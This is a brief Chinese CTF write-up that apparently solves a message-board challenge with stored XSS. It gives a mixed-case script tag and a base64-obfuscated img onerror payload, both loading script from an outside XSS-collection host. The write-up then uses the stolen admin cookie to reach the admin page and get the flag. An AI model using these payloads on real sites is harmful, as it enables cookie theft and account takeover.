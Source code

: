 flag:flag{5085a4df-4e6a-4da2-9a70-65ba448a6454}

----

一个留言板，尝试xss

```(空)
<sCRiPt sRC=//uj.ci/uou></sCrIpT>
...
测试
```

利用xss平台

```(空)
'"><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vdWouY2kvdW91Ijtkb2N1bWVudC5ib2R5LmFwcGVuZENoaWxkKGEpOw== onerror=eval(atob(this.id))>
```



![image-20241218175420671](https://gitee.com/bx33661/image/raw/master/path/image-20241218175420671.png)

利用管理员的cookie登录

http://f69873ee-ce15-4fda-89eb-663530931e9a.node5.buuoj.cn:81/backend/admin.php

即可拿到flag